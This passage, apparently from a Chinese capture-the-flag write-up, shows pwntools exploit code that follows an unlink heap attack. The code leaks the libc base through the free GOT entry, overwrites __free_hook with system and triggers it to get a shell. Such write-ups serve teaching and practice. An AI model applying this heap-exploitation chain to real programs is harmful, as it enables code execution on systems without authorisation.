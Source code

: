   同我们完成了**unlink攻击**后，我们可以通过修改book等的指针，从而实现任意地址的读写，那么获取shell就非常简单，其利用代码如下所示
  ```python
	wp_jump(r, p64(1) + p64(elf.got['free']) + p64(1) + p64(class_got - 0x18))
	lib_base = u64((wp_view(r).split('\x7f')[0] + '\x7f').ljust(8, '\x00')) - lib.sym['free']
	log.info('lib_base => %#x'%lib_base)


	wp_jump(r, p64(1) + p64(lib_base + lib.search('/bin/sh').next()) + p64(1) + p64(lib_base + lib.sym['__free_hook']))
	wp_jump(r, p64(lib_base + lib.sym['system']))
	wp_drop(r)

	r.interactive()
```
